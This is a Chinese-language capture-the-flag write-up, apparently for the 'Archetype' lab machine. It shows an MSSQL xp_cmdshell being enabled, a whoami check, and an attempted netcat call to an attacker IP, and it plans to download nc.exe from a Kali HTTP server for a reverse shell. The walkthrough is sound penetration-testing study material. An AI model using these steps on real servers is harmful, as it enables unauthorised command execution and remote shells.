 ## task6

What script can be used in order to search possible paths to escalate privileges on Windows hosts?

可以使用什么脚本来搜索升级Windows主机上权限的可能路径？

这里尝试cmd能否使用，并且测试是否有nc命令，如果有就可以通过反弹shell建立起一个持续性的shell。

```powershell
SQL> enable_xp_cmdshell
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> xp_cmdshell"whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL   
SQL> xp_cmdshell "nc 10.10.16.87"
output                                                                             

--------------------------------------------------------------------------------   

'nc' is not recognized as an internal or external command,                         

operable program or batch file.                                                    

NULL    
```

但是报错显示没有这个命令。但是cmd命令行可以用，那我们尝试传一个nc程序过去。这里是提前在kali里存一个`nc.exe`，然后开启http服务，在靶机里使用wget命令远程下载kali里的文件。这里注意提前将启动http服务的终端进入到存有nc.exe的文件夹里，这样http服务的根目录就是此文件夹，下载nc也更方便。

先查看Kali的IP

![image-20221128203908469](assets/image-20221128203908469.png)

然后再kali上开启HTTP服务

![image-20221128204252047](assets/image-20221128204252047.png)
